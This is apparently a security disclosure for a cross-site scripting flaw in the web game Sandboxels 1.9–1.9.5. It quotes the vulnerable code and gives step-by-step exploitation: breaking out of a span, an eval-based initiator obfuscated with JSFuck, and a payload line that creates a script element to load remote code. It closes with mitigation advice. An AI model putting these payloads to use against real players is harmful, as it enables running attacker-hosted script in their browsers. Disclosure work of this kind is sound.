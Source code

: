 # Cross-site scripting vulnerability for Sandboxels 1.9 - 1.9.5
This report details a cross-site scripting (XSS) vulnerability in Sandboxels (https://sandboxels.r74n.com/) affecting versions 1.9 to 1.9.5. The vulnerability can be exploited without requiring any game modifications.

## Vulnerability Overview
Sandboxels has a feature that lets some elements clone other pixels. Each cloning element (referred to as a "cloner") starts cloning the first pixel it touches. That pixel's element is displayed below the game canvas when hovering over the cloner.

## Exploit Details
Since version 1.9 which adds saves that can be manipulated in external programs and version 1.9.1 which adds a Prop tool, that property can be exploited to display arbitrary message below the game canvas. Since elements aren't verified or sanitized, that field can be exploited to execute JavaScript code (XSS):
```js
if (elements[currentPixel.element].hoverStat) {
    stats += "<span id='stat-hover' class='stat'>"+elements[currentPixel.element].hoverStat(currentPixel)+"</span>";
}
else if (currentPixel.clone) {
    stats += "<span id='stat-clone' class='stat'>"+currentPixel.clone.toUpperCase()+"</span>";
}
```
The uppercase value of the `clone` property is appended to the HTML code inside of `stats` div without any validation.

## Exploitation Method
To manipulate the `clone` property of a pixel, the Prop tool is utilized. This tool allows players to change the properties of a pixel to any data without modifying the save file.

1. The attacker escapes the `<span>` tag using a `</span>` closing tag
2. The attacker injects JavaScript code using a known vulnerability, such as `<style onload=''></style>`. The injected code will function as an initiator: `eval(document.getElementById("1").innerHTML.toLowerCase())`
This code will turn any code found inside of an element with id of 1 into lowercase and run it.
Since the initiator code can't contain lowercase letters, a tool like [JSFuck](https://jsfuck.com/) should be used to remove such characters.
3. The attacker uses a `<p>` (or any other text-based tag) with an id of 1 to store the rest of the code. This code will be used to load an external script: `let a=document['createElement']('script');a.src='URL';document.head.append(a)`. Since this code will be turned into lowercase, it can't contain any uppercase characters, so a tool like JSFuck should be used to change any code that might contain such characters (such as 'createElement' in this case). That also mean that the URL can't contain such characters either.
4. The attacker selects the Prop tool in Sandboxels, enters the initiator code (such as the code in `initiator.js`) into browser's console and uses Prop tool on some pixels. After hovering over those pixels, code found at the URL (in this case code from `test.js`, hosted using [jsdelivr](https://jsdelivr.com/)) will be executed.

## Mitigation Recommendations
To prevents this XSS vulnerability, the following measures should be implemented:
* **Input Validation and Sanitization**: All inputs should be properly validated and sanitized, especially if they affect HTML content
* **Escape Output**: Any user-generated content should be escaped before inserting it into the DOM

By addressing these issues, the security of Sandboxels can be significantly improved, protecting users from potential XSS attacks.
